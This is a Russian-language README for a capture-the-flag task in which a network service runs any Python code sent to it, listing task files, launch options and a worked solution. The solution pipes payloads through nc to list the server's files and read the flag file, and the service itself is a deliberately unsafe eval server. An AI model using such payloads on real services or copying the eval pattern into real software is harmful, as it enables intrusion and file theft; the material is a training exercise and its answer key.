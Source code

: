 Python eval
===========

> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные.
Заполучите их!  

Файлы
-----
1. **eval.py** - Исходный код
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Псевдо исходный код, который доступен участникам

Запуск
------
```
python3 eval.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)

---

Решение
-------
1. получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```